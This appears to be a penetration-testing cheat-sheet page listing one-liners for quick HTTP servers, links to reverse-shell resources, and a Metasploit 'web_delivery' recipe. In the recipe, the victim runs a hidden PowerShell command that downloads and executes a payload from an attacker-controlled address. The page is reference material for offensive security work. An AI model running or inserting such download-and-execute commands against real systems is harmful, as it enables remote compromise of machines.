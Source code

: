```yaml
---
title: Shells and Web Servers
category: Exploitation
order: 97
---
```


> **Reverse Shell One-Liners**

* [Reverse Shell One liners](https://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html)
* [Bash, PHP, Netcat, Telnet, Perl, Ruby, Java, Python, Gawk](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

> **HTTP Servers One-Liners**

Python 2 | python -m SimpleHTTPServer 8000
Python 3 | python -m http.server 8000
ruby | <code> ruby -rwebrick -e'WEBrick::HTTPServer.new(:Port => 8000, :DocumentRoot => Dir.pwd).start' </code>
ruby 1.9.2+ | ruby -run -ehttpd . -p8000
perl | <code> perl -MHTTP::Server::Brick -e '$s=HTTP::Server::Brick->new(port=>8000); $s->mount("/"=>{path=>"."}); $s->start' </code>
php | php -S 127.0.0.1:8000
IIS Express | "C:\Program Files (x86)\IIS Express\iisexpress.exe" /path:C:\MyWeb /port:8000"
OpenSSL | <code> openssl req -newkey rsa:2048 -nodes -x509 -subj '/CN=name-you-want.example.com' -days 3650 -out server.cert -keyout server.key <br> openssl s_server -accept 7781 -cert server.cert -key server.key -WWW </code>


> **Powershell HTTP Servers**

{% highlight powershell %}
$Hso = New-Object Net.HttpListener
$Hso.Prefixes.Add("http://+:8000/")
$Hso.Start()
While ($Hso.IsListening) {
    $HC = $Hso.GetContext()
    $HRes = $HC.Response
    $HRes.Headers.Add("Content-Type","text/plain")
    $Buf = [Text.Encoding]::UTF8.GetBytes((GC (Join-Path $Pwd ($HC.Request).RawUrl)))
    $HRes.ContentLength64 = $Buf.Length
    $HRes.OutputStream.Write($Buf,0,$Buf.Length)
    $HRes.Close()
}
$Hso.Stop()
{% endhighlight %}

> **Script Web Delivery** 

On the attacker machine: 
{% highlight bash %}
msf > use exploit/multi/script/web_delivery
msf exploit(web_delivery) > show targets
            ...targets...
msf exploit(web_delivery) > set TARGET <target-id>
msf exploit(web_delivery) > show options
            ...show and set options...
msf exploit(web_delivery) > exploit
{% endhighlight %}

On the victim: 
{% highlight bash %}
powershell.exe -nop -w hidden -c IEX ((new-object net.webclient).downloadstring('http://10.10.10.10:80/[randomstring]'))
{% endhighlight %}

Reference:
* [securitypadawan](https://securitypadawan.blogspot.com/2014/02/php-meterpreter-web-delivery.html)


> **Useful Resources** 

* [Powershell HTTPS Shell](http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-3.html)
* [powercat](https://www.sans.org/reading-room/whitepapers/testing/powercat-35807)
* [powercat](https://github.com/besimorhino/powercat/blob/master/powercat.ps1)

